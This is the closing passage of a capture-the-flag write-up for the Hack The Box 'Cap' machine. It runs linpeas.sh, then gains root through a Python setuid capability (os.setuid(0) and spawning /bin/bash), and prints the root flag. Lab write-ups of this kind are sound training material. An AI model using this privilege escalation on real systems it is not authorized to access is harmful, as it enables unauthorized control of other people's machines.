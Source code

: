 Let's execute this script to scan for privilege escalation vulnerabilities.

```console
nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh

...
```

The script returns a lot of data, but what we are looking for is text that are highlighed in yellow and with red text.

![linpeas.sh](./images/linpeas.png)
**Figure 7:** linpeas.sh

This basically says that we can set the UID using `python`, if so, we can set the UID to root (root UID is 0) and spawn a shell.

```console
nathan@cap:/tmp$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/tmp# 
```

Hooray!! We got root.

Let's go get the root flag now.

```console
root@cap:/tmp# cat /root/root.txt
088cc97218940d8d0949848de821da94
```

# Conclusion
To conclude, without trying the set of credential on ssh, getting onto the system for privilege escalation wouldn't have been possible. Users will often reuse credentials on different systems.

# References
1. [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
2. [https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)
3. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
4. [https://hackthebox.eu](https://hackthebox.eu)
